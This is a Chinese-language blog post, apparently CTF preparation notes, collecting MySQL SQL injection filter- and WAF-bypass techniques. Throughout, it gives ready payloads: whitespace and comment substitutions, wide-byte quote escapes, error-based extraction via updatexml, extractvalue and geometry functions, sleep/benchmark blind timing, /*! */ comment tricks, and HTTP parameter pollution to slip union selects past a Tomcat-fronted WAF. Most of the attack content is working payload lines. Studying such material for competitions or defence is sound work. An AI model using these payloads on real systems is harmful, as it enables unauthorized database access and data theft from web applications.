最近，在比赛发现之前整理sql注入的笔记有点乱，有bypass姿势有点不好找。于是写了篇文章来整理下。
中间件过滤绕过
1.大小写绕过
2.双写绕过
3.编码绕过
4.字符替换绕过
方法替换绕过
空格绕过
1.在纯mysql下，我们可以用/**/来代替空格。
1 | select/**/database(); |

2.我们还可以用+来代替空格。
1 | select+database(); |

3.在有php中间件下，我们用%09、%0A、 %0B、 %0C、 %0D、%A0、%20这些url字符来绕过空格。
1 | select%09database(); |
4.and/or后面可以跟上偶数个!、~可以替代空格，也可以混合使用(规律又不同)，and/or前的空格可用省略.
5.用()来传递参数。
1 | select * from user where username='admin'union(select+title,content/**/from/*!article*/where/**/id='1'and!!!!~~1=1) |
6.对于字符串参数可以利用 引号和反引号还传递参数。
7.由于<> 等价于 !=,我们可以再加一个!来构成=的效果.

8.符号、字母与数字间的空格可以适当省略。

注释符绕过
在sql中，注释符有：两种单行注释符和多行注释。
1 | #， |
若# 、-同时被ban。可以使用逻辑符与引号转字符串绕过。
1 | ' union select 1,2,3||'x |
数字与大写字母绕过
1 | false !pi() 0 ceil(pi()*pi()) 10 A ceil((pi()+pi())*pi()) 20 K |
等号绕过
我们可以用LIKE 替代。
1 | id = 'USER' |
逗号绕过
在对于substr()和mid()这两个方法可以使用from to的方式来解决：
1 | select substr(database() from 1 for 1); |

在对于limit可以使用offset来绕过：
1 | select id from books limit 1 offset 0; |

在对于select可以使用jion来绕过：
1 | select * from (select 1)a join (select 2)b; |

大于小于符号绕过
greatest&&least
我们可以用greatest() 与least() 。
greatest(a,b)返回a与b中较大的那个值。

least(a,b)返回a与b中较小的那个值。

因此一个盲注sql语句：
1 | select * from users where id=1 and ascii(substr(database(),0,1))>64; |
可以替代成为：
1 | select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64 |
strcmp
strcmp(str1,str2):若所有的字符串均相同，则返回STRCMP()，若根据当前分类次序，第一个参数小于第二个，则返回 -1，其它情况返回 1.

in关键字
in关键字可以用来判断前一字符串中是否有某一字符.

between a and b
between a and b 来判断范围是否在a-b之间

逻辑符号与关键词替代绕过
1 | 在sql中： |
引号绕过
使用十六进制

用宽字节绕过
当我们输入的数据为：username=%df%27or%201=1%23&password=123
经过addslashes函数处理最终变成：username=%df%5c%27or%201=1%23&password=123
经过gbk解码得到：username=運'or 1=1#、password=123，拼接到SQL语句得：
1 | select * from users where username = '運'or 1=1#' and password='123'; |
从而绕过引号.
sleep绕过
报错注入函数替代
exp
payload：exp(~(select * from(select user())a))
updatexml
payload：updatexml(1,concat(0x7e,(select user()),0x7e),1)
extractvalue
payload：(extractvalue(1,concat(0x7e,(select user()),0x7e)))
rand()+group()+count()
payload：select count(*),2,concat(':',(select database()),':',floor(rand()*2))as a from information_schema.tables group by a
GeometryCollection
payload：GeometryCollection((select * from (select* from(select user())a)b))
polygon
payload：polygon((select * from(select * from(select user())a)b))
multipoint
payload：multipoint((select * from(select * from(select user())a)b))
multilinestring
payload：multilinestring((select * from(select * from(select user())a)b))
linestring
payload：LINESTRING((select * from(select * from(select user())a)b))
multipolygon
payload：multipolygon((select * from(select * from(select user())a)b))
函数时延
sleep
payload:select 1,3 and sleep(1)
benchmark
MySQL有一个内置的BENCHMARK()函数，可以测试某些特定操作的执行速度。
参数可以是需要执行的次数和表达式。第一个参数是执行次数，第二个执行的表达式.
benchmark(time,fun)
字符串截取替代
SUBSTR
substr（data，statr，len）

SUBSTRING
substring（data，statr，len）

还有多种模式：SUBSTRING(str,pos)、SUBSTRING(str FROM pos)、SUBSTRING(str,pos,len)、SUBSTRING(str FROM pos FOR len)。
RIGHT
RIGHT(str,len)，对指定字符串从最右边截取指定长度。

LEFT
LEFT(str,len)，对指定字符串从最左边截取指定长度。

RPAD
RPAD(str,len,padstr)，在 str 右方补齐 len 位的字符串 padstr，返回新字符串。如果 str 长度大于 len，则返回值的长度将缩减到 len 所指定的长度。

LPAD
LPAD(str,len,padstr)，与RPAD相似，在str左边补齐。

MID
mid(str,pos,len)同于 SUBSTRING。

CONCAT
concat(str1,str2…)，函数用于将多个字符串合并为一个字符串。
GROUP_CONCAT
返回一个字符串结果，该结果由分组中的值连接组合而成。
MAKE_SET
MAKE_SET(bits,str1,str2,…)根据参数1，返回所输入其他的参数值。可用作布尔盲注，如：EXP(MAKE_SET((LENGTH(DATABASE())>8)+1,'1','710'))。
其他特性
注释逃逸
/* */ 在mysql中是多行注释,但是如果里面加了! 那么后面的内容会被执行.
正常的sql语句:
1 | SELECT NAME FROM books WHERE id=1 UNION SELECT DATABASE(); |
效果如下:
含有/*! */的sql语句;
1 | SELECT NAME FROM books WHERE id=1 /*!union*/ SELECT DATABASE(); |

我们还可以利用一个*/去匹配多个/*！，例如sql语句：
1 | SELECT NAME FROM books WHERE id=1 /*!union/*!select*/DATABASE(); |

http参数污染
在与服务器进行交互的过程中，客户端往往会在GET/POST请求中带上参数。通常在一个请求中，同名参数只会出现一次，但是在HTTP协议中是允许同名参数多次出现的。

如果一个网站只在tomcat服务器处做数据过滤和处理，我们可以利用解析参数的不同，对WAF检测进行绕过。
攻击payload：index.php?id=-1' union select 1,database(),3--+
union select…会被tomcat服务器识别为恶意攻击并拦截，而如果payload如下：
攻击payload：index.php?id=1&id=-1' union select 1,database(),3--+
tomcat服务器检测第一个参数后发现无异常，提交给apache服务器。成功绕过WAF拦截
handler语句代替select查询
mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。
语法:
1 | HANDLER tbl_name OPEN [ [AS] alias] |
例如,查询一个表名为 books的表:
1 | handler books open as x; #指定数据表进行载入并将返回句柄重命名 |

常见全局变量
1 | @@VERSION #返回版本信息 |
参考文献
https://www.secpulse.com/archives/68991.html
https://wooyun.js.org/drops/MySQL%E6%B3%A8%E5%85%A5%E6%8A%80%E5%B7%A7.html